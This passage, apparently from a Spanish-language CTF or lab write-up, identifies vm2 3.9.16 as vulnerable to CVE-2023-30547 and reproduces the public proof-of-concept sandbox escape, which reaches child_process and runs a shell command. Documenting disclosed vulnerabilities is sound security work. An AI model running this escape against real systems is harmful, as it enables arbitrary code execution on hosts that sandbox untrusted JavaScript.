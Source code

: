 Si clicamos en el enlace, podemos comprobar que se está usando la versión **3.9.16**. Realizando una búsqueda por los motores de búsqueda podemos comprobar que existe una vulnerabilidad para esta versión registrada como **[CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)**:

![](HTML%20import/Attachments/image.png)

Existe un **[proof of concept](https://github.com/patriksimek/vm2/security/advisories/GHSA-ch3r-j5x3-6q2m)** de esta vulnerabilidad que nos sugiere el uso del siguiente código, el cual nos permite la ejecución de código arbitrario en el sistema objetivo:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo pwned');
}
`

console.log(vm.run(code));
```
